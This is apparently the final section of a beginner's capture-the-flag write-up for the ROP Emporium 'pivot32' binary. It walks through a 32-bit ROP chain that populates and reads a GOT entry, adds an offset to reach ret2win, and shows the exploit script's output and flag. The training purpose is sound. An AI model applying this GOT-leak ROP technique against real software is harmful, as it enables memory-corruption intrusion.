 The longer ROP chain is initialised with the PLT value of `foothold_function` since the first thing we need is to call this function to populate the GOT entry.

```python
long = foothold_plt
```

After this, the GOT entry contains the address of `foothold_function` in the memory. The `libpivot32.so` is brought into memory when required and assigned a starting memory address. First, the address of GOT entry is moved in `EAX` and then using the `mov eax, dword ptr [eax] ; ret` gadget, the address of the imported function is moved to `EAX`(saved at the GOT entry).

```python
long += pop_eax
long += foothold_got
long += eax_val
```

The offset is moved to `EBX` and then added to `EAX`

```python
long += pop_ebx
long += offset
long += add
```

Now `EAX` contains the address of `ret2win` function and it can be called.

```python
long += call_eax
```

This solves the challenge and the flag is obtained. The complete [script](https://github.com/saurabhmittal16/ropemporium/blob/master/pivot32.py) can be found in my Github [repo](https://github.com/saurabhmittal16/ropemporium).

Here is the output when the script is executed

```bash
$ python3 exploit.py
[*] '/home/saurabh/Data/Exploit/ropemporium/pivot/32/pivot32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    RPATH:    b'./'
[+] Starting local process '/home/saurabh/Data/Exploit/ropemporium/pivot/32/pivot32': pid 28882
Now kindly send your stack smash
>
foothold_function(), check out my .got.plt entry to gain a foothold into libpivot.so
[+] ROPE{a_placeholder_32byte_flag!}
```

That's the end of this post. I think that this is a great challenge for beginners since the challenge is not too difficult but still interesting to work on. Thanks for reading. Cheers!
